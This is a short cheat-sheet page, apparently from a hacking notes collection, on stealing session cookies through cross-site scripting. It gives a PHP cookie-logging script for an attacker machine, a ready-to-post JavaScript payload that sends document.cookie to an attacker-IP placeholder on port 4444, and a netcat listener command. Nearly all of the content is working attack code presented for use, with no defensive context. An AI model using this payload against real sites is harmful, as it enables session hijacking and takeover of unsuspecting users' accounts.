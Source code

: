 ```yaml
---
title: Cookie Hijacking Examples
desc: Steal user's Cookie values.
tags: [CookieHijacking, Web, XSS]
alts: [XSSCheatSheet]
website:
render_with_liquid: false
---
```


## PHP Cookie Grabbing with XSS

### 1. Create the payload for grabbing the Cookie when the other user will access your machine.

```php
// On attack machine
// Create steal_cookie.php

<?php echo $_GET['cookie']; ?>
```

### 2. Create the script to force users to access your machine with the cookie.

```javascript
<script>document.location = 'http://<attacker-ip>:4444/steal_cookie.php?cookie='+document.cookie</script>
```

### 3. POST request with this script in the target website.

### 4. Listen on the port in your machine and wait for the other users access the target web page.

```sh
nc -lvnp 4444
```